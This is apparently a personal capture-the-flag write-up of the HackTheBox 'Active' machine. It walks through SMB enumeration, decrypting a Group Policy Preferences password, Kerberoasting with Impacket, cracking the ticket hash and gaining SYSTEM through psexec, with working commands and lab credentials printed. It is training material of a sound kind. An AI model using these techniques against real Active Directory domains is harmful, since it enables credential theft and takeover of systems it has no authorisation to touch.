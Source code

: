 ```yaml
---
layout: default
title : muzec - Active Writeup
---
```



![image](https://user-images.githubusercontent.com/69868171/124292498-8b3e1b00-db4d-11eb-9d81-3b1b2033ad6c.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Fri Jul  2 05:11:00 2021 as: nmap -sC -sV -oA nmap 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.39s latency).
Not shown: 981 closed ports
PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
82/tcp    filtered xfer
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-02 12:13:11Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
2383/tcp  filtered ms-olap4
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
49152/tcp open     msrpc         Microsoft Windows RPC
49153/tcp open     msrpc         Microsoft Windows RPC
49154/tcp open     msrpc         Microsoft Windows RPC
49155/tcp open     msrpc         Microsoft Windows RPC
49157/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open     msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h00m56s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-07-02T12:14:16
|_  start_date: 2021-07-02T04:37:58

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  2 05:13:37 2021 -- 1 IP address (1 host up) scanned in 157.11 seconds
```

Windows and it my first on HackTheBox so we have many ports so i start my enumeration on the SMB port to check if anonymous logins is allowed.

`smbclient -L //10.10.10.100/ -N`

![image](https://user-images.githubusercontent.com/69868171/124294416-909c6500-db4f-11eb-8d5b-afe7f3466c52.png)

I decided to use `SMBMAP` also to check which of the share we have access to.

`smbmap -H 10.10.10.100`

![image](https://user-images.githubusercontent.com/69868171/124294821-0a345300-db50-11eb-800f-3faca42f7083.png)

Seems we have read permission on the `Replication` share let use `smbclient` to log in.

`smbclient  //10.10.10.100/Replication -N`

![image](https://user-images.githubusercontent.com/69868171/124295159-6bf4bd00-db50-11eb-8630-02162a5f5dc2.png)

Going through all files in the share i found something cool with credentials store in it.

![image](https://user-images.githubusercontent.com/69868171/124295628-fa693e80-db50-11eb-9ec5-107d6cde84bf.png)

`cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` 

I try doing some research on the `Groups.xml` file i got on the SMB share.

Group Policy Preference (GPP) file. GPP was introduced with the release of Windows Server 2008 and it allowed for the configuration of domain-joined computers. A dangerous feature of GPP was the ability to save passwords and usernames in the preference files. While the passwords were encrypted with AES, the key was made publicly available.

So if we managed to compromise any domain account, we can simply grab the groups.xml file and decrypt the passwords.

![image](https://user-images.githubusercontent.com/69868171/124296301-b32f7d80-db51-11eb-9dc1-565ea2b65f6f.png)

Now we know we are on the right track let hit it. We have a username also a password which is encrypted let find a way to decrypt it.

![image](https://user-images.githubusercontent.com/69868171/124296559-04d80800-db52-11eb-9dc9-eedb5f058b05.png)

```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

gpp-decrypt is present on kali and gpp-decrypt is a simple ruby script that will decrypt a given GPP encrypted string.

We know have a valid credentials to get access to the machine username: `SVC_TGS` password: `GPPstillStandingStrong2k18` also we know we are working on a active directory machine we can use the credentials we have now to query for a ticker.

Now let’s try a technique known as Kerberoasting.  Kerberoasting is one of the most common attacks against domain controllers. It is used to crack a Kerberos (encrypted password) hash using brute force techniques.

![image](https://user-images.githubusercontent.com/69868171/124298654-6ac58f00-db54-11eb-98e0-a5d8a5d92588.png)

If you compromise a user that has a valid kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

Now time for us to use `Impacket` and it can easily be install with the command below;

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/
python setup.py install #install software
```

Done installing we will be using the ` GetUserSPNs.py` script let try to locate it.

![image](https://user-images.githubusercontent.com/69868171/124299670-9b59f880-db55-11eb-8f27-5a36d5c30d24.png)


`GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request` 

And boom We were able to request a TGS from an Administrator SPN.

If you find this error from Linux: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) it because of your local time, you need to synchronise the host with the DC: ntpdate <IP of DC>

Now that we have the hash let crack it using john the ripper save in a file name `hash` .
  
![image](https://user-images.githubusercontent.com/69868171/124300528-96497900-db56-11eb-9c22-4fdde6c07803.png)

We have credentials for administrator now let use `psexec.py` to get access to it through the SMB share.
  
`psexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100` 

![image](https://user-images.githubusercontent.com/69868171/124301085-3acbbb00-db57-11eb-9524-a06f99cd55bf.png)

we are system let go get the flags lol.

![image](https://user-images.githubusercontent.com/69868171/124301449-c47b8880-db57-11eb-986d-cfa7a9e7e881.png)

Now let get the administrator Flag.
  
![image](https://user-images.githubusercontent.com/69868171/124301625-fdb3f880-db57-11eb-9de4-57a20d1f1e0d.png)

We are done damn it right actually my first Windows machine more to come and keep updating.
  

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
